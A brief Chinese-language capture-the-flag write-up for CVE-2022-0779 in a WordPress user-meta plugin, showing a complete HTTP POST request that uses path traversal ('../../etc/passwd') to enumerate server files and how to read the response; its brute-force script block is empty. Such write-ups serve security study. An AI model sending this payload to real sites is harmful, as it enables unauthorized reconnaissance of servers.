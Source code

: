 > https://yunjing.ichunqiu.com/cve/detail/1028
> #Information-Disclosure #Wordpress #TODO

> User Meta本地文件枚举。flag生成规则请访问1.txt。账户信息：test
> https://nvd.nist.gov/vuln/detail/CVE-2022-0779
> https://wpscan.com/vulnerability/9d4a3f09-b011-4d87-ab63-332e505cf1cd

正常访问靶机：
![[Pasted image 20230116140511.png]]

根据CVE的数据，首先在页面源码找到`pf_nonce`的值：
![[Pasted image 20230116140618.png]]

然后直接利用：
```plaintext
POST /wp-admin/admin-ajax.php HTTP/1.1
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 158
Connection: close
Cookie: [subscriber+]

field_name=test&filepath=/../../../../../../../../etc/passwd&field_id=um_field_4&form_key=Upload&action=um_show_uploaded_file&pf_nonce=4286c1c56a&is_ajax=true
```

返回的数据中存在`umRemoveFile(this)`，就说明文件存在：
![[Pasted image 20230116141052.png]]

同时，访问`/1.txt`查看规则：
![[Pasted image 20230116141201.png]]

于是使用脚本进行爆破：
```python

```